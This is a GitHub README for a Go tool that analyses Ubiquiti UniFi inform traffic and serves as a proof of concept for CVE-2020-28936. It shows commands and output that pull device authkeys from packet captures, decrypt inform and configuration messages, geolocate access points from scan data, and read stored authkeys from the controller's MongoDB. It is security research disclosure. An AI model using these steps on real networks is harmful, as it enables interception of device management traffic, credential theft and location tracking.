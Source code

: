# pixiedust
Tool for exploring Ubiquiti UniFi inform traffic & proof of concept for [CVE-2020-28936](https://jade.wtf/words/unifi-l3inform-crypto).

## Building
1. You need [go](https://golang.org/). 
2. Clone git repo.
3. `go build`

## Usage

Extract keys from pcap of device adoption:
```
$ ./pixiedust -in unifi-fresh-usw.pcap -findkeys -message=false -logtostderr=false
0ee876dee74ff09c2e88387ecda39512
```

View inform sent from device (truncated here):
```
$ ./pixiedust -in unifi-fresh-usw.pcap  | jq | head -10
I1120 00:15:22.540899   13221 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
{
  "architecture": "armv7l",
  "board_rev": 9,
  "bootid": 0,
  "bootrom_version": "usw-USHR3_v1.0.11.60-ga2f339b1",
  "cfgversion": "?",
  "default": true,
```

View config settings as applied to device (filtered to inform response because big output...):
```
$ ./pixiedust -in unifi-fresh-usw.pcap 2>&1|head -3|tail -2
{"_type":"setparam","mgmt_cfg":"capability=notif,fastapply-bg,notif-assoc-stat\nselfrun_guest_mode=pass\ncfgversion=bd4b0ca608dd9ca5\nled_enabled=false\nstun_url=stun://unifi:3478/\nmgmt_url=https://unifi:8443/manage/site/default\nauthkey=0ee876dee74ff09c2e88387ecda39512\nuse_aes_gcm=true\nreport_crash=true\n","server_time_in_utc":"1605818282220"}
I1120 00:11:43.163105   13121 extraction.go:59] discovered key: 0ee876dee74ff09c2e88387ecda39512 for 10.0.1.48
```

Geolocate WiFi APs by scan data (and suppress inform request/response so you don't miss it): 
```
$ export PD_MAPS_API_KEY=your_google_maps_key_here
$ ./pixiedust -in locinform.pcap -locate -message=false
Device E063DA85AAC5 at 37.533223,-121.998402 (32.000000)
Device E063DA85AAC5 at 37.533154,-121.998379 (122.000000)
Device E063DA85AAC5 at 37.532886,-121.997456 (164.000000)
Device E063DA85AAC5 at 37.532843,-121.997286 (175.000000)
Device E063DA85AAC5 at 37.532932,-121.998446 (125.000000)
Device E063DA85AAC5 at 37.532959,-121.998441 (125.000000)
Device E063DA85AAC5 at 37.532993,-121.998439 (125.000000)
Device E063DA85AAC5 at 37.532977,-121.998488 (60.000000)
Device E063DA85AAC5 at 37.532987,-121.998509 (101.000000)
```

## Need keys and don't want to wait for an adopt?
Here's an example of how you'd retrieve current keys from UniFi controller's database:
```
admin@unifi:~$ mongo 127.0.0.1:27117/ace
MongoDB shell version v3.6.8
connecting to: mongodb://127.0.0.1:27117/ace
Implicit session: session { "id" : UUID("b29aa101-e19d-42c6-86f0-bfe0be52af81") }
MongoDB server version: 3.6.8
Server has startup warnings:
2020-11-09T22:48:24.711+0000 I CONTROL  [initandlisten]
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2020-11-09T22:48:24.712+0000 I CONTROL  [initandlisten]
>  db.device.find({}, {x_authkey:1, _id: 0})
{ "x_authkey" : "0d90127a28666c197a1d1798258a2036" }
>
bye
```
